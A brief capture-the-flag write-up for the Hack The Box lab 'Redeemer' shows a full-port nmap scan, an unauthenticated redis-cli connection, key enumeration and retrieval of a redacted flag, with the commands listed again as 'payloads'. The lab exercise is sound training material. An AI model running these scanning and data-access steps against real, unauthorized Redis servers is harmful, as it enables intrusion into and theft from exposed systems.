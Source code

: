 ## HTB Starting Point: Redeemer  
**Level**: Easy  
**Date**: July 28, 2025  
**Goal**: Exploit an exposed Redis service to retrieve the user flag.

---

### 🧰 Tools  
```bash
- nmap
- redis-cli
- Basic Redis enumeration commands
```

---

### 🧭 Steps  

```bash
# Step 1: Scan all ports using Nmap
nmap -sS -p- -n -T4 10.129.X.X

# Output:
# PORT     STATE SERVICE
# 6379/tcp open  redis
```

```bash
# Step 2: Connect to Redis service
redis-cli -h 10.129.X.X
```

```bash
# Step 3: Check Redis server information
info
```

```bash
# Step 4: Enumerate available keys
keys *

# Output:
# 1) "flag"
```

```bash
# Step 5: Retrieve the flag value
get flag

# Output:
# "HTB{REDACTED}"
```

---

### 💣 Payloads Used  
```bash
nmap -sS -p- -n -T4 10.129.X.X
redis-cli -h 10.129.X.X
info
keys *
get flag
```
